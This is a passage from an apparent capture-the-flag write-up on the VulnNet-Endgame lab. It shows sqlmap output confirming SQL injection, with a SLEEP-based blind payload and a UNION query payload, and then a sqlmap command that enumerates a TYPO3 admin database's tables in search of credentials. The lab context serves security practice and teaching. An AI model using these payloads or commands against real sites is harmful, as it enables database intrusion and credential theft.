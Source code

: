 ```

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: blog=1 OR SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-9075 UNION ALL SELECT CONCAT(0x7176717671,0x72576a667762514c4a48736172554a6d677548546a724163455949526b53546f6153495564735376,0x71766a6b71),NULL,NULL-- -
---
[00:44:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[00:44:41] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin
```

**It's vulnerable to SQL injection!**

Let's enumerate the entire MySQL's databases!

The database `vn_admin` sounds holding some credentials in the `typo3` CMS!

**Enumerate database `vn_admin`'s table names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin --tables
[...]
Database: vn_admin
[48 tables]
+---------------------------------------------+
| backend_layout                              |
| be_dashboards                               |
| be_groups                                   |
| be_sessions                                 |
| be_users                                    |
| cache_adminpanel_requestcache               |
| cache_adminpanel_requestcache_tags          |
| cache_hash                                  |
| cache_hash_tags                             |
| cache_imagesizes                            |
| cache_imagesizes_tags                       |
| cache_pages                                 |
| cache_pages_tags                            |
| cache_pagesection                           |
| cache_pagesection_tags                      |
| cache_rootline                              |
| cache_rootline_tags                         |
| cache_treelist                              |
| fe_groups                                   |
| fe_sessions                                 |
| fe_users                                    |
[...]
```
